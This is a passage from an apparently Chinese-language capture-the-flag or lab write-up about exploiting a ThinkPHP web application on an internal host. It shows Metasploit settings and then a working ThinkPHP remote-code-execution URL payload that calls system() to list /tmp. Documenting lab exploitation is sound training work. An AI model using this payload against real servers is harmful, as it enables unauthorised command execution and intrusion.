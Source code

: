 ```ruby
show payloads
set payload <>
set RHOSTS 192.168.100.2
set RPORT 80
```
![](./images/设置thinkphp的exploit参数.png)
但是在利用时，一直报错为无法解析thinkphp的版本，因此我很难利用这个exploit直接使用漏洞,而且从上帝视角中,我知道这个是迷惑内网，因此我只需要拿到我的flag就可以，因此我直接使用一个现成的poc利用了漏洞
![](./images/访问了thinkphp的页面.png)
**将poc在浏览器中访问输入:**
```
/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=ls /tmp
```